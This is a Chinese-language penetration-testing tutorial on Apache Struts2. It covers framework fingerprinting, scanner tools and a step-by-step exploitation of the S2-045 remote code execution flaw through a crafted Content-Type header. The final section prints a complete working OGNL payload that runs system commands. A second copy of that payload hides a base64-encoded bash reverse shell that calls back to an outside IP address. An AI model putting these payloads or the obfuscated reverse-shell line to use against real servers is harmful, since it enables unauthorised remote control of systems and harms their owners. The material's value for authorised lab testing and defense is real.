 #### 一、简介

Struts2框架是一个用于开发Java EE网络应用程序的开放源代码网页应用程序架构。 它利用并延伸了Java Servlet API，鼓励开发者采用MVC架构。 Struts2以WebWork优秀的设计思想为核心，吸收了Struts框架的部分优点，提供了一个更加整洁的MVC设计模式实现的Web应用程序框架。

<br/>

#### 二、历史漏洞

<br/>

##### １）历史漏洞原理分析

`https://tttang.com/archive/1583/`

`https://su18.org/post/struts2-5/`

2）漏洞搭建

vulhub：`https://github.com/vulhub/vulhub/tree/master/struts2`

<br/>

#### 三、漏洞发现

<br/>

##### 1）Struts2框架识别

- 通过网页后缀来进行判断，如.do或者.action
- 通过/struts/webconsole.html是否存在来进行判断，需要devMode为true

<br/>

2）漏洞检测工具

Struts2-Scan：`https://github.com/HatBoy/Struts2-Scan`

s2-tool：`https://github.com/Guaang/s2-tool`

Struts2VulsTools：`https://github.com/shack2/Struts2VulsTools`

<br/>

#### 四、历史漏洞利用

<br/>

##### 1）Struts2-045 远程代码执行

在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

影响版本范围：

`Struts 2.3.5 - Struts 2.3.31`

`Struts 2.5 - Struts 2.5.10`

<br/>

#### 2）漏洞利用

a. 随意上传一个文件并抓包

b. 修改Content-Type为以下内容

```sh
Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

重放请求即可执行里面包含的命令行

c. 添加反弹shell的命令

```sh
Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuNzEuNDUuMjgvNzg5MCAwPiYx|base64 -d|bash -i').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```